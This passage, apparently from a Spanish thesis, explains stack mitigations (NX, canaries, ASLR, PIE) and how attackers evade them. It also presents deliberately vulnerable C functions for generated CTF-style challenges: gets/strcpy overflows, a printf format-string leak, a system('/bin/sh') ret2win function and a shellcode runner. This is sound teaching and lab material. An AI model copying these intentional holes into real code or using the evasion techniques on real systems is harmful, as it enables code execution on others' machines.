    
\includegraphics[width=0.9\textwidth]{images/mitigaciones.jpeg}
    \caption{Mitigaciones (Escudo) y ataques (Diablo) ideados con el paso del tiempo}
    \label{fig:mitigaciones}
\end{figure}
\FloatBarrier

\subsubsection{No eXecute (NX)}
Es la primera mitigación introducida en el compilado de binarios. Mediante esta medida de seguridad se evita que porciones del stack sean ejecutables.
Por ejemplo, en un binario sin \acrshort{nx} activado, un usuario malicioso podría generar contenido en el stack tras un \acrshort{bof} y saltar a él mediante una instrucción del tipo `jmp esp' en el \acrshort{eip}, si el contenido del stack es una shellcode.

La generación de una shellcode es posible mediante herramientas como `msfvenom'.
Para cumplir con la explotación se debe localizar una instrucción en el binario del tipo `jmp esp' o `call esp' y sustituirla en el \acrshort{eip}. La shellcode generada debe ir con un preámbulo de instrucciones \acrfull{nop} (0x90) en caso de que no se pueda calcular con precisión dónde empezará a ejecutarse el código malicioso.

Como prueba de concepto se puede hacer uso del siguiente código C.
Está compilado para arquitecturas 32bit por lo cual la shellcode generada debe ser compatible con 32bit.

\begin{lstlisting}[language=C, caption=Código C para probar shellcodes]
// Flags de compilado: $ gcc -o shelltest shelltest.c -z execstack -m32
/* Introducir la shellcode generada con msfvenom aqui : */
char codigo[] = "";

int main()
{
    (*(void(*)()) codigo)();
    return 0;
}
\end{lstlisting}

\subsubsection{Canarios en el stack}
Añadir la flag de \acrshort{nx} no soluciona todos los posibles problemas que pudiera generar un \acrshort{bof}.
Se inventaron nuevas técnicas como por ejemplo `ret2libc', donde se hace uso de las librerías standard del sistema para obtener ejecución de código remota.
La técnica consiste en usar una llamada a la función `system' ubicada en la librería \acrshort{libc}, la cual si se le añade el argumento `/bin/sh' también incluido en la misma librería, habilita una consola dando control al usuario maligno sobre el programa.

Para evitar que un \acrshort{bof} permita sustituir el registro \acrshort{eip}, se añade un valor al principio de la función a ejecutar con un valor aleatorio calculado en la inicialización del binario.
Si en el momento anterior al \acrfull{ret} el valor no coincide con el inicial, el programa se para frecuentemente con un error del formato `***stack smashing detected***'.

En el compilador \acrshort{gcc}, la opción para habilitar el canario es `-fstack-protector-strong'.
Para comprobar el funcionamiento descrito se puede reusar el snippet \ref{snippet:simplebof}
\subsubsection{Address Space Layout Randomization (ASLR)}
Como medida adicional para evitar que una explotación sea satisfactoria se introdujo la aleatorización de las direcciones de memoria del binario.
Cuando un binario se ejecuta, la dirección base de las librerías compartidas o del sistema cambian.
Esta protección la gestiona el sistema operativo y se puede modificar su comportamiento mediante el fichero \path{/proc/sys/kernel/randomize_va_space}.
Un valor de 0 significa que está desactivado, un valor de 1 activa el \acrshort{aslr} y el valor 2 lo activa también en los segmentos de datos y la memoria gestionada con la función `brk()'.
Esta técnica dificulta el uso de exploits del tipo `ret2libc' en binarios compilados con librerías dinámicas.
\subsubsection{Position Independant Executable (PIE)}
Esta medida aleatoriza la posición de memoria donde se carga el binario cada vez que se ejecuta.
Para que el comportamiento del ejecutable no cambie, las direcciones de memoria que se usan serán relativas en lugar de absolutas.
\subsection{Evasión de mitigaciones}
En esta sección se habla sobre cuales son las formas más comunes de evadir las mitigaciones permitiendo vulnerar el programa.
Las mitigaciones pueden evitar que un pequeño fallo programático se convierta en crítico dificultando a los atacantes alterar el flujo del binario con repercusiones fatales.
Sin embargo, teniendo en cuenta la definición de mitigación, se sabe que estas no aseguran que la explotación sea imposible.

La forma más común de eludir estas medidas es obteniendo direcciones de memoria del stack mediante una vulnerabilidad del tipo format string explicado en el punto \ref{subsec:fmtstr}.

Entender cual es el formato de los binarios en Linux es de gran relevancia para conseguir evadir algunas de las mitigaciones.
Esta información puede consultarse en el recurso online citado en el punto \cite{x64asm} de la bibliografía.

\subsubsection{Evasión de NX}
Si de alguna forma el usuario malicioso consigue una vulnerabilidad que le permita alterar el flujo de ejecución, ese usuario podría usar la técnica `ret2libc' apuntando a la función `mprotect' y habilitando el bit de ejecución en la sección del stack de interes.

\subsubsection{Evasión de canario}
En caso de que el usuario maligno disponga de una vulnerabilidad del tipo format string, podría aprovecharla para recuperar el valor del canario e inyectarlo en su payload evitando así modificar el valor del mismo.
Es importante anotar que para que esto funcione, el leak debe proceder de la misma función de la que se pretende obtener el canario.
% TODO EXAMPLE
\subsubsection{Evasión de PIE} \label{subsub:pie}
El objetivo principal para anular esta mitigación consiste en explotar una vulnerabilidad del tipo format string consiguiendo una dirección de memoria del stack.
Esta dirección siempre se encontrará en un offset sobre la base.
Además, las direcciones de memoria base del ejecutable siempre acabarán en `000', esto es debido a que lo que realmente se está aleatorizando en memoria son páginas que tienen un tamaño estándar de `0x1000'.

Por ejemplo, si la función `main' está ubicada en la dirección `0x4894' y sabiendo que la posición relativa sobre la base es de `0x894', se concluye que la base del binario se ubicará en `0x4000'
% TODO EXAMPLE
\subsubsection{Evasión del ASLR}
A diferencia del \acrshort{pie}, este mecanismo hace uso de las cabeceras \acrfull{plt} y \acrfull{got} del binario.
Cuando se hace una llamada a una función externa de una librería compartida, el binario revisará la tabla \acrshort{plt} la cual enlaza con una dirección de la tabla \acrshort{got}.
Esta última tabla contiene la dirección de memoria real de la función a ejecutar.
Por lo tanto, se pueden dar dos situaciones diferentes para eludir la mitigación:
\begin{itemize}
    \item La función a ejecutar existe en la \acrshort{plt}, se puede apuntar a esta dirección directamente para ejecutar lo deseado.
    \item En caso de que no exista, se puede explotar la tabla \acrshort{got}.
    \begin{itemize}
        \item Si \acrshort{pie} está desactivado, se puede recuperar la dirección de memoria desde el mismo binario.
        \item En caso de que \acrshort{pie} esté activado, se necesita aplicar el conocimiento adquirido en el punto anterior \ref{subsub:pie}.
    \end{itemize}
\end{itemize}
% TODO EXAMPLE

\subsection{Inyección de vulnerabilidades} \label{subsec:vulns}
Las vulnerabilidades a inyectar se han dividido en diferentes categorías según la dificultad.
Según se aumente la dificultad mayores serán las mitigaciones empleadas.
\begin{itemize}
    \item Nivel 0: El binario no presenta ningún tipo de seguridad.
    \item Nivel 1: El binario presenta el bit \acrshort{nx} activado.
    \item Nivel 2: El binario presenta canario y \acrshort{nx} activado.
    \item Nivel 3: El binario presenta \acrshort{pie}, canario y \acrshort{nx}.
    \item Nivel 4: El binario presenta \acrshort{aslr}, \acrshort{pie}, canario y \acrshort{nx}.
\end{itemize}
Las vulnerabilidades a la hora de escribir el proyecto consisten en transformaciones de inputs.
Dependiendo de la dificultad posible inyección de vulnerabilidad tipo format string.
Todas las vulnerabilidades inyectadas hacen uso de la función `strcpy' debido a que fuerza el \acrshort{bof} en la función esperada y con el comportamiento esperado.

Las posibles funciones vulnerables se encuentran en el siguiente snippet de código:
\begin{lstlisting}[language=C, caption=Posibles vulnerabilidades inyectadas]
// Funcion ret2win
void ret2win(){
    system("/bin/sh");
}
// Vulnerabilidades con diferentes funciones
void input_gets_bof(char *buf) {
    char filler[64];
    char buffer[64];
    gets(buffer);
    strcpy(buf, buffer);
}

void input_fgets_bof(char *buf){
    char filler[64];
    char buffer[64];
    fgets(buffer, sizeof(filler) + sizeof(buffer)*2, stdin);
    strcpy(buf, buffer);
}

void input_fgets_bof_canary(char *buf){
    int canary = 0x20;
    char filler[64];
    char buffer[64];
    fgets(buffer, sizeof(filler) + sizeof(buffer)*2, stdin);
    if (canary != 0x20)
        exit(127);
    strcpy(buf, buffer);
}

void input_gets_bof_canary(char *buf) {
    int canary = 0x20;
    char filler[64];
    char buffer[64];
    gets(buffer);
    if (canary != 0x20)
        exit(127);
    strcpy(buf, buffer);
}

void input_scanf_bof(char *buf) {
    char filler[64];
    char buffer[64];
    scanf("%s", buffer);
    strcpy(buf, buffer);
}

void input_scanf_bof_canary(char *buf) {
    int canary = 0x20;
    char filler[64];
    char buffer[64];
    scanf("%s", buffer);
    if (canary != 0x20)
        exit(127);
    strcpy(buf, buffer);
}


void input_strcpy_bof(char *buf) {
    char filler[64];
    char buffer2[64];
    fgets(buffer2, sizeof(buffer2), stdin);
    strcpy(buf, buffer2);
}

void append_input_bof(char *buf) {
    char filler[64];
    char buffer[64];
    scanf("%s", buffer);
    strcat(buf, buffer);
}
// Leak, esta funcion no se inyecta directamente, unicamente se toma el cuerpo y se inyecta al principio de las funciones cuando la dificultad lo requiere
void easy_leak() {
    do
    {
        printf("\nBut first, I'll print what you type, take it as a gift: ");
        char* init[32];
        fgets(init, sizeof(init), stdin);
        printf(init);
        printf("\n");
        printf("Now you can continue with what I asked you before :) \n");
        /* code */
    } while (0);
}
\end{lstlisting}
\section{Soluciones a los retos}
\subsection{Tutoriales}
\subsection{Ejemplos de payloads}